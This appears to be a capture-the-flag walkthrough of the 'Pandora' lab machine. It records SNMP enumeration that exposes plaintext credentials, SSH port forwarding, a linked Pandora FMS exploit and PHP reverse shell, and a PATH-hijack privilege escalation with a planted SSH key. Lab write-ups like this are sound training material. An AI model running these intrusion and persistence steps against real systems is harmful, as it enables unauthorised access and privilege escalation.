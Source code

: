 # Enumeration
Using nmap enumeration:
```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

```
```
PORT    STATE SERVICE
161/udp open  snmp

```
There is a website on port :
![](attachment/9457ccc4fcad46b3ef953f9e2c878b6c.png)
Using gobuster found some directories but wasnt useful
Using snmpwalk walk to enumerate:
`snmpwalk -c public -v2c 10.10.11.136`
Found Credentials on snmpwalk:
![](attachment/2cf415ddb15dda623626fd3573b667ad.png)
daniel : HotelBabylon23
# Exploitation
Logging in using ssh found one more user matt in home directory.

Checking apache servers in `/etc/apache2/sites-available`:
pandora.conf
![](attachment/6fb80239754c882b332e5c13e1a070a8.png)
The port is on localhost so forwarding is needed.
Using ~ to give command in ssh and then type "C" to give additional arguments
`ssh daniel@10.10.11.136 -L 8000:127.0.0.1:80`
Visiting 127.0.0.1:8000![](attachment/28e7844ceb216305d69d2ad75df86921.png)

Using this [exploit](https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated/tree/master)
And uploading [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell)
Using linpeas
![](attachment/0d5f6bc3dd1f3d9b9b9da6d91e032c19.png)
Now analysing the file pandora_backup located at /usr/bin/pandora_backup
![](attachment/6d050742a93f467fc5562f5a6d41ac6e.png)Using ghidra we can see![](attachment/0dae855f17d3bdd40d2359f3c8e21029.png)
Now doing a path hijack

```
echo /bin/bash > tar

export PATH=/home/matt:$PATH

chmod +x tar

```
![](attachment/ba81078df96261572b00b38fc67bba6f.png)

This doesn't work due to an error with sudo![](attachment/b16bf8752ebe98e920ee1204b92ebd44.png)

It doesn't run from this shell so getting an ssh shell.
To get a ssh shell in matt:
- generate key pair with `ssh-keygen`
- drop public key into `/home/matt/.ssh/authorized_keys`
-  Give appropriate permissions
```
chmod 700 /home/matt/.ssh
chmod 600 /home/matt/.ssh/authorized_keys
```
- `ssh -i id_ed25519 matt@10.10.11.136` Login using ssh
Now `sudo -l` works with ssh:
![](attachment/3bba022f24f9bc5648054235e729b843.png)
Now  running pandora_backup we get root:
![](attachment/b9794c793cce227eb25dfb814fbcff68.png)
# Beyond Root
To trace back the process we did `echo $$` first and went back from there in `ps -ef`


SUID binaries failed to run due to the pandora.conf in apache2:
![](attachment/6070d5e7a81781f39c11d37bd381cb66.png)
It runs as user matt and group matt
The /etc/apache2/mods-enabled directory shows the various modules that are enabled, and mpm-itk is there (typically items in the *-enabled directories are symbolic links to items in the *-available directories):